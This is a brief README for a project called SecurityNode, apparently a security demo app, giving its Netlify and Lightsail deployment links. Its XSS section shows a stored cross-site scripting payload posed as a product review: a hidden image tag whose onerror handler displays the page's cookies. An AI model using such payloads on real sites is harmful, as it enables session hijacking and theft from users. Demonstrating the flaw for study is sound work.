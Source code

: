 # SecurityNode
[![Netlify Status](https://api.netlify.com/api/v1/badges/236e6c62-ed0d-4a0c-b2b6-c30bb8e14737/deploy-status)](https://app.netlify.com/sites/objective-snyder-f1032e/deploys)

## Netlify
Build & Deploy on Netlify on https://objective-snyder-f1032e.netlify.app/

## Lightsail
Manual Deploy on Lightsail on http://52.204.27.193 (Dynamic IP)

### XSS
```
Awesome product!
<img src="xyz" style="display:none" onerror="alert(`Your Cookies: ${document.cookie}`);">
```
